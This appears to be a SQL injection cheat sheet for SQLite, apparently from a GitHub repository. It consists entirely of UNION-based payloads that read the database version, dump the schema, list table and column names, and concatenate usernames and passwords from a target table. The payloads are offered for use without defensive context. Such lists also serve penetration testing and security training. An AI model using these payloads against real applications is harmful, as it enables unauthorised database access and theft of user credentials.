 # SQLite 

## Version

```sql
' UNION SELECT 1,sqlite_version(), 3, 4-- -
```

## String based - Extract database structure

```sql
UNION SELECT sql FROM sqlite_schema-- -
```

## Extract table name

```sql
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -
```

## Extract column name

```sql
UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' -- -
```

## GROUP_CONCAT COLUMN

```sql
SELECT group_concat(ID || "," || username ||"," ||password||":") FROM table_name-- -
```

